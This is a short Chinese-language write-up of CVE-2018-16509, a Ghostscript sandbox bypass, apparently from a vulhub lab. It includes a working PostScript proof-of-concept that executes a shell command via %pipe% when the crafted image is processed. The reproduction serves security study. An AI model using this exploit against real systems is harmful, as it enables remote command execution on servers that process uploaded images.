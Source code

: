 （CVE-2018-16509）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测'restoration of
privilege（权限恢复）'。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

二、漏洞影响
------------

Ghostscript 9.24之前版本

三、复现过程
------------

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器`docker-compose exec web bash`，将可以看到/tmp/success已被创建：

**poc.png**

    %!PS
    userdict /setpagedevice undef
    save
    legal
    { null restore } stopped { pop } if
    { legal } stopped { pop } if
    restore
    mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops

![](resource/(CVE-2018-16509)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-16509/
